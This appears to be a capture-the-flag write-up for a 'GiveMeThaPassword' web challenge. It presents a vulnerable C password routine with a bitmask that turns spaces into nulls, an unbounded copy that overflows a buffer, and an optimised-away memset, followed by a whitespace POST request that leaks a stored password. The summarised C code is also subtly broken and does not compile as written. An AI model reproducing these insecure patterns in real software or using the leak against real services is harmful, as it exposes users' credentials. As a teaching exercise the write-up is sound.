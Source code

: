 # WriteUP for the "GiveMeThaPassword" Challenge  

## Recon
At first we receive a link to the challenge. 

Inspect it and we receive a blank page. Umm smells like we are going to use burp.

Use Burp proxy to inspect the GET request.

When we try to make the GET we receive a 400 Bad Request.

Since we don't have any more info, let's change to POST Request.

We do the POST and receive this:

```tcp
HTTP/1.1 200 OK
Content-Length: 41
Content-Type: text/plain; charset=utf-8
Date: Tue, 08 Dec 2020 12:46:26 GMT
Connection: close

Passwords must be at least 8 characters! 
```

Nice! :)

Sending a password with 8 characters:

```tcp
HTTP/1.1 200 OK
Content-Length: 64
Content-Type: text/plain; charset=utf-8
Date: Tue, 08 Dec 2020 12:48:49 GMT
Connection: close

Looks like you forgot your password! Your password is: AAAAAAAA
```

OK, now we know how the request are working, let's check the code.

We can summarize the code in this lines:

```c
void ctf(char *password, int print) {
	char buffer[256];
	int pwdlen = strlen(password);

	if (strlen(password) < 8) {
		printf("Passwords must be at least 8 characters!\n");
		return;
	}
	// passwords are case-insensitive
	//uppercase
	while (password) {
		//WARNING 1!
		*password &= ~0x20; //*password = *password & ~0x20; to uppercase
		password++;
	}
	//cpy
	while (*password) {
    //WARNING 2!
		*buffer = *password;
		buffer++;
		password++;
	}
	//email
	if (print){
		printf("Looks like you forgot your password! Your password is: ");
		for (int i = 0; i < n; i++) {
			printf("%c", password[i]);
		}
		printf("\n");
	}
	// Erase sensitive information!!
  	//WARNING 3!
	memset(buffer, ' ', 256);
}

int main(int argc, char *argv[]) {
	while (--argc) {
		char buffer[256] = {0};
		strcpy(buffer, argv[argc]);
		ctf(&buffer[0], argc == 1);
	}

	return 0;
}
```
As you can see in the code, I added 3 warnings, let's check it to see how we can retrive the password.

## Warning 1
```c
*password &= ~0x20;
```
This part makes the AND operation in the sixth bit so:

If we have an 'a' and we want to change it to an 'A' we do this:

```
a 	=	0110 0001
~0x20	=	1101 1111
    	 	---------
A 	=	0100 0001    
```
This type of bit manipulation is also pretty dangerous, mostly because we can send NULL 
signals using a SPACE character:

```
' '	=	0010 0000
~0x20	=	1101 1111
    	 	---------
NULL	=	0000 0000    
```
Note for the future: "Send whitespaces, maybe i'll find something" ( ͡° ͜ʖ ͡°)

## Warning 2
```c
while (*password) {
*buffer = *password;
		buffer++;
		password++;
	}
```
This is another example of how NOT to copy a variable in C. With this type of code I can write outside
the buffer (buffer overflow) and access other parts of the memory or even manipulate
the flow of the program; sending NULL signal for example, because the while will never
be true.

**This part allow us to not overwrite the last password typed, maybe from of another user.**

## Warning 3
```c
memset(buffer, ' ', 256);
```
This function is being optimized by the compiler, and it's not running. ¯\_(ツ)_/¯


## Exploit
With everything that we learned before we can clearly send this NULL signals and watch the
behaviour of the app.

```tcp
POST /password/remind HTTP/1.1
Host: xxx.es
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

                                                      
```   
Response:                                                
```tcp
HTTP/1.1 200 OK
Content-Length: 110
Content-Type: application/octet-stream
Date: Sun, 27 Dec 2020 19:51:19 GMT
Connection: close

Looks like you forgot your password! Your password is: FLAG[INSOVIETRUSSIAFLAGCAPTURESU]
``` 

That's all folks!
